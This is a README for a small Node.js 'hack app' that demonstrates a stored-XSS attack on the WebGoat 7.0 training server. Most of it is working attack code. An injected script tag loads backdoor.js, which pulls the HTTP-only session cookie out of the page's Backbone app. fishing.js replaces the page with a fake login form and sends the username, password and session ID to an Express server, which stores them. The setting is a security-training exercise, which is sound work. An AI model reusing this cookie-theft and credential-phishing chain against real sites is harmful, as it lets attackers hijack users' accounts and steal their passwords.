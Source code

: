# webGoatHack
A small node.js app for exercising with WebGoat 7.0

# WebGoat
WebGoat is a special web server application for training various security attacks. To read more what is it and how to install it proceed to the [link](https://github.com/WebGoat/WebGoat/)

# Hack App install and run
Please, clone the repo to you computer and then install node dependencies by executing
```
npm install
```
To ran hack application type 
```
npm start
```
The application will starts at `http://localhost:3000/`

# How to perform attack
1. Go to the lesson "Stored XSS" in `Webgoat` Put into the title of the comment this content:
```
Cool site <script src='http://localhost:3000/backdoor.js'></script>
```
2. Run hacking application with `npm start`
3. Open the lesson again. Login into the system. 
4. Open "Stolen information page" via link `http://localhost:3000/outcome`

# Explanation 
The aim of the attack is to get users's session ID, username and password. 

As web server for providing malicious code we use Express application (Express is a popular javascript framework for building web applications)

We came with two level approach because we want to perform attack once per user session and in the same time hide the mechanism of attack from the victim. 
## First level. Script `backdoor.js`
```
var fishing = document.createElement('script')
var cookie = goatRouter.lessonController.cookieView.collection.findWhere({name:'JSESSIONID'}).attributes
fishing.setAttribute('src','http://localhost:3000/fishing.js?session='+cookie.value);
document.body.appendChild(fishing);
```
This script only collects the `JSESSIONID` cookie and sends it as GET parameter. Since the cookies are set to be `HTTP-only` one can't read them directly from `document.cookie` object. So, we read it from `goatRouter` Backbone application (Backbone is a popular front-end javascript framework which is used in `WebGoat`)

On a server this request is processed by the code:
```
app.get('/fishing.js',function(req, res, next){
  if (req.query.session) {
    if (typeof stolenInformation[req.query.session] === 'undefined') {
      res.sendFile(path.resolve('hacks/fishing.js'));
    } else {
      res.send('console.log("Already")');
    }
  }
});
```
We use session value as a key for the `stolenInformation` object. If this property is undefined we send file `fishing.js` which performs phishing attacks. Defined property means that we already performed attack for this session value, so we skip to send malicios code.

## Second level. Script `fishing.js`
This script actually performs attack and sends confidential data to our server. Important note that we don't redirect the user to some other page in the internet, he fills login form staying on the original site (and seeing its url in his browser address field possibly with valid `HTTPS` certificate information).
```
var worm = document.createElement('script')
var cookie = goatRouter.lessonController.cookieView.collection.findWhere({name:'JSESSIONID'}).attributes
var stolenInformation = {};
var bodyBackup;
//
// Open GET request for index page 
$.ajax({
    url:'/WebGoat',
    success: function(data){
        // replace content of body tag with index page login form
        $('body').html(data);
        
        // set a handler for submit button
        $('form').find('button').click(function(e){
            
            // prevent login
            e.preventDefault();
            
            // collect username and password from inputs
            $('.form-control').each(function(item){
                stolenInformation[this.name] = this.value;
            })
            stolenInformation.session = cookie.value;
            
            // send stolenInformation to the server as GET parameters
            worm.setAttribute('src','http://localhost:3000/final.js?'
                +'session='+stolenInformation.session
                +'&username='+stolenInformation.username
                +'&password='+stolenInformation.password);
            document.body.appendChild(worm);
            
            // reload the page
            window.location.reload();

        })
    }
});
```
We save stolen information on a server with a script:
```
app.get('/final.js',function(req, res, next){
  if (req.query.session) {
    if (typeof stolenInformation[req.query.session] === 'undefined') {
      stolenInformation[req.query.session] = {
        session: req.query.session,
        username: req.query.username,
        password: req.query.password
      }
      res.send('console.log('hacked')');
    }
  }
});
```
`stolenInformation` object is stored inside of hack application and can be used whatever we what. 




